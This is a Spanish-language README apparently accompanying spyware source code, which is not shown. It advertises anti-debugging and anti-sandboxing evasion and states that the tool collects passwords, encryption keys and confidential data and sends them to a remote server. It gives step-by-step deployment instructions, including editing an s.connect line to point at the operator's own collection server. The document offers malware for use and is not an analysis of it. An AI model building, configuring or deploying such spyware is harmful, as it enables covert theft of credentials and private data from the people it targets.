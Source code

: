 # Spyware
A simple spyware with anti-debugging and anti-sandboxing

# Un Spyware simple hecho por mí desde 0

Este código recopila información (como contraseñas, claves de cifrado y datos confidenciales) y te las envía a un servidor remoto.
Este código es básico con técnicas básicas para no ser detectado, si buscas algo para tú poder infiltrarte en sitios grandes y recopilar información con este código, vete a tomar por culo.



## Cómo usarlo

- Preparar el terreno:

Antes que nada, necesitas tener Python instalado en tu computadora. Si no lo tienes, puedes conseguirlo fácilmente desde el sitio web oficial de Python. La instalación es bastante sencilla, solo sigue las instrucciones que te den.
- Conseguir las herramientas necesarias:

Este código necesita algunas cosas adicionales para funcionar correctamente. Para obtenerlas, abre una ventana de comandos (en Windows, sería el símbolo del sistema) y escribe lo siguiente:

**pip install pycryptodome**
- Preparar tu propio servidor:

Antes de ejecutar el código, necesitas configurar un servidor al que el script enviará los datos que recolecte y desde el cual descargar archivos adicionales si es necesario. Tendrás que tener una dirección IP y un número de puerto a mano para hacerlo.
- Modificación del código:

Abre el archivo de código Python en un editor de texto o un entorno de desarrollo integrado (IDE) como Visual Studio Code o PyCharm.
Busca la línea que contiene la dirección IP y el puerto del servidor remoto, esta se encuentra en la línea 80 del código (s.connect(('192.168.1.100', 12345))).
Cambia la dirección IP '192.168.1.100' y el puerto 12345 por los de tu servidor remoto.

- Ejecutar el code:

Una vez que hayas hecho las modificaciones q te he dicho, guarda el archivo de código.
Abre una terminal o símbolo del sistema y navega hasta el directorio donde se encuentra el archivo de código Python.
Ejecuta el script Python con el siguiente comando:

**python nombre_del_archivo.py**

(cambia el nombre_del_archivo.py con el nombre del archivo que tengas)


